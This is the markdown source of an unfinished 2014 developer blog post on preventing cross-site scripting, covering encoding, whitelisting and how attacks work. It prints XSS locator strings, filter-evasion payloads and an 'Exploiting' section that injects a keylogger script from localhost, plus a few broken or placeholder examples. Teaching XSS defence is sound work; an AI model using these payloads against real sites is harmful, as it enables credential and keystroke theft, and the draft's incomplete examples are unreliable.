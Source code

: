 ```yaml
---
layout: posts
title: "5 Takeaways to rid your site from XSS vulnerabilities"
description: "If you are a developer, you need to take security very seriously and here is why"
keywords: "xss, cross site scripting, hacking, vulnerability, scripting"
date: 2014-10-09 23:13
categories: ['blog']
tags: ['security']
comments: true
meta: true
image:
  feature: covers/xss-security.jpg
  bg_style: 'background-position: left; background-size: contain; background-repeat: no-repeat; background-color: #000C14;'
quote:
    text: "When solving problems, dig at the roots instead of just hacking at the leaves."
    title: The College Blue Book
    author: Anthony J. D'Angelo
---
```

Every couple of years ["The Open Web Application Security Project" (OWASP)][6] publishes its [Top 10 list][1] of most
prevalent web application security flaws and often people complain that nothing new has come up. There in itself lies
a **problem**, and as rightful developers we need to take heed of this anti-pattern and do something about it.

One of those ever present vulnerabilities that is always likely to exist on a website most of the time is
Cross-site scripting (XSS)[^1].

[**Cross-site scripting (XSS)**][5] is the most prevalent web application security flaw. **XSS** flaws occur when an
application includes user supplied data in a page sent to the browser without properly validating or escaping that
content.
{: .alert.alert-warning }

Even though the move to modern development frameworks such as .NET, which provide automatic protection against this
vulnerability amongst others, has removed a lot of the onus on developers to understand its technical detail, lack of
understanding of security flaws and the increase in client side code are two areas that IMO continues to keep XSS at
the top of the security flaws list.

> It is a technical debt that you will have to pay sooner or later.

Whilst tasked to fix XSS security holes in a legacy application that I was supporting, the exercise was so
daunting and time consuming that it made me firm up my belief that security indeed needs to be taken very seriously.
It is a technical debt that you will have to pay sooner or later.

There are automated tools that can find and identify XSS problems automatically. However because every application
builds output pages differently &mdash; with a mixture of server and client side &mdash; automated detection has
become very difficult. It is only with code review (requiring strong implementation awareness) and laborious manual
regression testing that a level of near complete coverage can be achieved.

So don't let things slip this far in your current development. **Update your project's [DoD][7]** and add specific
references to security as a first step.

In the mean time, I share with you 5 key takeaways from my sprint of learning to comprehensively prevent XSS
taking place on your site.

## 1. Encoding
Input is left as is, and not santized. For a system that already exists in Production, think about the content
that has already been entered by users already.


* Different encoding types exist
* Attribute encoding, Content encoding

> But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event
handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method
everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML
document you're putting untrusted data into. That's what the rules below are all about.
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

## 2. Locator Strings

~~~
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
~~~

~~~
'';!--"<XSS>=&{()}
~~~


## 3. White list HREF SRC attributes
Positive or “whitelist” input validation is also recommended as it helps protect against XSS, but is not a complete
defense as many applications require special characters in their input. Such validation should, as much as possible,
validate the length, characters, format, and business rules on that data before accepting the input.


```
// Embedded tab
<IMG SRC="jav	ascript:alert('XSS');">

// Embedded Encoded tab
<IMG SRC="jav&#x09;ascript:alert('XSS');">

// Embedded carriage return to break up XSS
<IMG SRC="jav&#x0D;ascript:alert('XSS');">

```

## 4. E
// 4 - How to exploit a XSS vulnerable site
* Using <svg onload="..." />
* Using <img onload="..." />
* Passing in query string
* Using bit.ly to obfuscate a URL, or HTML encoding - its getting easy to get users to click on malciious links because of url shorterning
* Breaking the code

```
function escape(input) {
    return '<input type="text" value="' + input + '">';
}
```

```
"><svg onload="alert('hello world');">
```

// 5 Context




Character | HTML Encoding |
----------|:--------------|
& | `&amp;`
< | `&lt;`
> | `&gt;`
" | `&quote;`
' | `&#x27`
/ | `&#x2F;`



#### XSS Locator


{% highlight javascript %}
javascript:alert(‘hello’);
java&#010;script:alert(‘hello’);

// Embedded tab
jav	ascript:alert('hello');

// Embedded newline to break up XSS
java&#X0A;script:alert(‘hello’);
{% endhighlight %}

Ref: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet


# Exploiting
```
// Embed and execute client side script by using a script tag if it is allowed in XSS vulnerable web page
<script src="http://localhost:3000/snoop.js"></script>

// Encode special tags to HTML code to bypass sites with simple inadequate encoding of special tags only
&#060;script src="http://localhost:3000/snoop.js"&#062;&#060;/script&#062;
```

Some sites will prevent any `<script>` tags to be embedded or posted in their input fields. In that case, you
could try to embed and run xss-keylogger client side script as part of the `onload` attribute of an `svg` element.
```
<svg onload="http://localhost:3000/snoop.js" />


var d=document;var s=d.createElement('script');s.type='text/javascript';s.src='http://localhost:3000/snoop.js';var h=d.getElementsByTagName('head')[0];h.appendChild(s);

function loadScript(url, callback) {
        // Adding the script tag to the head as suggested before
        var head = document.getElementsByTagName('head')[0];
        var script = document.createElement('script');
        script.type = 'text/javascript';
        script.src = url;

        // Then bind the event to the callback function.
        // There are several events for cross browser compatibility.
        script.onreadystatechange = callback;
        script.onload = callback;

        // Fire the loading
        head.appendChild(script);
    }
```

## How to get it right
To improve my own knowledge on this domain, I thought I'd try and learn how to hack. It turned out to be a lot of
fun whilst at it.

Just wanted to move on from the `alert` messages that most XSS demonstrations show. Own complete application.
// Talk about XSS Keylogger and the learning
// For something more fletched out, [Browser Exploitation Framework (BeEF)][3]

Heaps of other methods. Suggest that you listen to [Application Security for RIAS][4] that demonstrats CSRF and even ClickJacking which I am
tempted to try on my site and see if it has any effects increasing the number of followers on my twitter - just kidding!

## References:
[^1]: [Whitehat Security Report][2] shows that XSS is second most likely vulnerability to exist on a website at 53%
just behind Information Leakage (55%).

* https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml
* http://prompt.ml/0

[1]: https://www.owasp.org/index.php/Top_10_2013-Top_10
[2]: https://www.whitehatsec.com/assets/WPstatsReport_052013.pdf
[3]: http://beefproject.com
[4]: http://www.sencha.com/conference/session/application-security-for-rias
[5]: http://en.wikipedia.org/wiki/Cross-site_scripting
[6]: https://www.owasp.org/index.php/About_OWASP
[7]: https://www.scrum.org/Resources/Scrum-Glossary/Definition-of-Done